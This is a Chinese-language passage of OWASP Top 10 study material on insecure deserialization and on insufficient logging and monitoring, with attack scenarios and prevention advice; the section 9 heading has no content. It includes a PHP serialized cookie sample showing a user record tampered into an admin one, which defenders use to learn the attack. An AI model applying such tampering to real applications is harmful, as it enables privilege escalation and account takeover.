* React应用程序调用了Spring Boot的微服务。作为一个函数式(functional)的程序员，他们尝试代码为不可变的。解决方法是他们想出了序列化用户的状态，并且在每一个请求来回传递它。一个攻击者注意到了Java的对象**签名(signature)**，并且使用Java序列杀手工具来，在应用程序服务器上获取远程代码。

* 一个PHP论坛使用PHP对象序列化来存储一个super cookie，包含用户的ID，身份，密码的哈希值，以及别的状态

  ~~~
  a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";
  i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
  
  a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";
  i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
  ~~~

应用程序和API会易受攻击，如果他们反序列化由攻击者提供的恶意的或者篡改过的对象。这会导致两种主要的攻击

* 与对象和数据结构相关的攻击，其中攻击者修改应用程序逻辑或实现任意远程代码执行，如果应用程序可用的类可以在反序列化期间或之后改变行为 
* 典型的数据篡改攻击，例如使用现有数据结构但更改内容的访问控制相关攻击。 

可以被用于

* 远程的、内部进程的通信(RPC/IPC)
* 有线协议(wire protocol)、web服务，信息代理(message brokers)
* 缓存/持久性
* 数据库，缓存服务器，文件系统
* HTTPcookie，HTML表格参数，API身份验证令牌(authentication tokens)

### 如何预防

唯一安全的架构模式就是不使用，不从未信赖的源上接受序列化的对象或者使用序列化的介质，只允许原始的数据。如果上述条件不行，就考虑下面的内容

* 实现整体检查，例如数字签名在任意序列化对象来防止敌对的对象创建和数据篡改
* 在创建对象之前的反序列化期间强制执行(enforce)严格的类型约束，因为代码通常需要一组可定义的类。 **已经证明(demonstrated)**可以绕过此技术，因此不建议仅依赖此技术。
* 尽可能地在低权限环境中隔离和运行反序列化的代码
* **记录(log)**反序列化异常和失败，例如传入的类型不是预期的类型，或者反序列化抛出异常 
* 从容器或者包含序列化的服务器中限制或监听输入输出网络连接
* 监听序列化，如果一个用户经常序列化要给予警告

## 9.使用有未知漏洞的组件



## 10.Insufficient Logging&Monitoring

日志和监控记录不足，**加上(coupled with)**事件响应的集成缺失，使攻击者能够进一步攻击系统，保持持久性，转向更多系统以及篡改、提取或破坏数据。大多数违规研究表明检测违规的时间超过 200 天，通常由外部方而不是内部流程或监控检测到。 

### 攻击场景

* 一个由小团队运行的开源项目论坛软件因软件缺陷而遭到黑客攻击。 攻击者设法清除了包含下一个版本的内部源代码库和所有论坛内容。 尽管可以恢复源，但缺乏监控、日志记录或警报导致了更严重的漏洞。 由于这个问题，论坛软件项目不再活跃 
* 攻击者使用通用密码对用户进行扫描。 他们可以使用此密码接管所有帐户。 对于所有其他用户，此扫描仅留下一次虚假登录。 几天后，这可能会用不同的密码重复

任何时候都有可能发生

### 预防

* 确保可以记录所有登录、访问控制失败和服务器端输入验证失败，并使用足够的用户上下文来识别可疑或恶意帐户，并保留足够的时间以允许延迟**取证分析(forensic analysis)**。 
* 确保以集中式日志管理解决方案可以轻松使用的格式生成日志。 
* 确保高价值交易具有带有完整性控制的审计跟踪，以防止篡改或删除，例如仅追加数据库表或类似的。 
* 建立有效的监控和警报，以便及时检测和响应可疑活动。 
* 制定或采用事件响应和恢复计划，例如 NIST 800-61 rev 2 或更高版本 



